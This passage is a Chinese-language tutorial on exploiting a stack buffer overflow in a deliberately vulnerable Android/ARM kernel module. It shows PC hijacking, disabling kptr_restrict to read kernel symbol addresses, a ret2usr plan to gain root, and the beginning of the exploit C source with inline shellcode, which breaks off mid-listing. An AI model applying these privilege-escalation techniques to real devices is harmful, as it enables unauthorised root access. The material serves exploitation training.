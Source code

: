 ![paste image](http://oy9h5q2k4.bkt.clouddn.com/15120564582742ufjathg.png?imageslim)
可以看到 pc 寄存器的值 为 0x41414141 成功劫持。测试时该内核没开 pxn ，所以我们可以在用户态编写shellcode让内核去执行。提取的方式很简单，内核态调用   `commit_creds(prepare_kernel_cred(0));`  提升权限为 root, 然后返回 用户态 执行 `execl("/system/bin/sh", "sh", NULL);` 起一个 `root` 权限的 `shell`， 完成提权。

下面先获取 `prepare_kernel_cred` 和 `commit_creds` 函数的地址。在 `/proc/kallsyms` 文件中保存着所有的内核符号的名称和它在内存中的位置。

不过在最近的内核版本中，为了使利用内核漏洞变得更加困难，`linux` 内核目前禁止一般用户获取符号。具体可以看这里。

当启用 `kptr_restrict `是我们不能获取内核符号地址的。
```
root@generic:/ # cat /proc/kallsyms | grep commit_creds                        
00000000 T commit_creds
```

在本文中，把它禁用掉，不管他。

```
	
root@generic:/ # echo 0 > /proc/sys/kernel/kptr_restrict                       
root@generic:/ # cat /proc/kallsyms | grep commit_creds                        
c0039834 T commit_creds
root@generic:/ # cat /proc/kallsyms | grep prepare_kernel_cred                 
c0039d34 T prepare_kernel_cred
```
禁用掉之后，我们就可以通过 `/proc/kallsyms` 获取 `commit_creds` 和 `prepare_kernel_cred `的地址。

至此，提权的问题解决了，下面就是要回到用户态，在`x86`平台有 `iret`指令可以回到用户态，在`arm`下返回用户态就更简单了。在`arm`下 `cpsr` 寄存器的 `M[4：0]` 位用来表示 处理器的运行模式，具体可以看[这个](http://www.cnblogs.com/armlinux/archive/2011/03/23/2396833.html)。

所以我们把 `cpsr` 寄存器的 `M[4：0]` 位设置为 `10000` 后就表示 处理器进入了用户模式。

所以现在的利用思路是：

- 调用 `commit_creds(prepare_kernel_cred(0))` 提升权限

- 调用 `mov r3, #0x40000010;   MSR    CPSR_c,R3; `设置 `cpsr`寄存器，使`cpu`进入用户模式

- 然后执行 `execl("/system/bin/sh", "sh", NULL);` 起一个 `root` 权限的 `shell`


最后的 `exp` :
```
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/mman.h>
#define MAX             64
int open_file(void)
{
        int fd = open("/proc/stack_buffer_overflow", O_RDWR);
        if (fd == -1)
                err(1, "open");
        return fd;
}
void payload(void)
{
                printf("[+] enjoy the shell\n");
                execl("/system/bin/sh", "sh", NULL);
}
extern uint32_t shellCode[];
asm
(
"    .text\n"
"    .align 2\n"
"    .code 32\n"
"    .globl shellCode\n\t"
"shellCode:\n\t"
// commit_creds(prepare_kernel_cred(0));
```